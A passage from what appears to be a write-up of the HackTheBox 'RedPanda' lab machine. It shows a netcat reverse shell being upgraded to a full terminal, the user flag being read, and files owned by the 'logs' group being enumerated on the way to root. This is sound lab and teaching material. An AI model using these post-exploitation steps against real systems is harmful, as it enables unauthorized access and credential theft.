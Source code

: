
I'll upgrade the shell using `script` and `stty` (explained
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):



    script /dev/null -c bash
    Script started, file is /dev/null
    woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    woodenk@redpanda:/tmp/hsperfdata_woodenk$ 



From here I can grab `user.txt`:



    woodenk@redpanda:~$ cat user.txt
    8080a73c************************



## Shell as root

### Enumeration

#### logs Group

The current user is in the `logs` group:



    woodenk@redpanda:/tmp$ id
    uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)



Interestingly, the user is actually not in that group, but the process
from which the shell was generated is. This leads to a discrepancy
between a shell gained via SSTI in the web application and using SSH
(I'll explore this in [Beyond Root](#beyond-root---groups)).

Looking for files owned by this group, I'll remove lines in `/proc`,
`/tmp`, and in the `/home/woodenk/.m2` directory:



    woodenk@redpanda:/$ find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
    /opt/panda_search/redpanda.log
    /credits
    /credits/damian_creds.xml
    /credits/woodenk_creds.xml



`/credits` is readable by `logs` but only writable by root:
